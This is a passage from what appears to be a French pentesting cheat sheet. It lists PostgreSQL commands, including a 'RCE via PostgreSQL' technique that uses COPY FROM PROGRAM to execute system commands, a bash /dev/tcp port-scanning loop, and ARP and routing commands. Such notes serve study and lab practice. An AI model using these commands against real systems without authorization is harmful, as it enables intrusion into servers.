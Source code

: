 ### PostgreSQL

```bash
# Se connecter
psql -U postgres -h 192.168.100.20

# Commandes PostgreSQL
\l              # Lister les bases
\c database     # Se connecter à une base
\dt             # Lister les tables
SELECT * FROM users;

# RCE via PostgreSQL
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

---

## 🌐 Utilitaires Réseau

### Scan de Ports Manuel

```bash
# Test de connexion TCP
timeout 1 bash -c "echo >/dev/tcp/192.168.100.20/80" && echo "Port 80 ouvert"

# Scan simple en bash
for port in {1..1000}; do
    timeout 1 bash -c "echo >/dev/tcp/192.168.100.20/$port" 2>/dev/null && echo "Port $port ouvert"
done
```

### ARP

```bash
# Afficher la table ARP
arp -a

# Scanner le réseau avec ARP
arp-scan -l
arp-scan 192.168.100.0/24
```

### Route & Routing

```bash
# Afficher la table de routage
route -n
ip route show

# Ajouter une route
route add -net 10.0.0.0/24 gw 192.168.100.1
```

---